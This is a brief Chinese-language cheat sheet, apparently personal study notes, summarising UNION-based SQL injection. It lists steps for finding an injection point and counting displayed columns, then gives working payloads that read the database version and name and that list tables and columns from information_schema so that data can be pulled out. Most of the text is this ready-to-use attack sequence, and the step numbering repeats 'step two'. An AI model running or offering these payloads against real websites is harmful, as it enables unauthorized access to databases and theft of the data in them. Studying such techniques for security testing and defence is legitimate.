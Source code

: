 ### SQL注入总结

- 第一步, 检查注入点
- 第二步, group by 查看前端回显字段数量
- 第三步, `union select 1,2,3,4` 根据前端显示判定回显字段
- 第二步, 注意闭合
- 注入代码:
    - `union select version(),database()`
    - `union select group_concat(table_name) from information_schema.tables where table_schema=database()`
    - `union select group_concat(column_name) from information_schema.columns where table_name='table_name'`
- 根据列名查询数据, 注意limit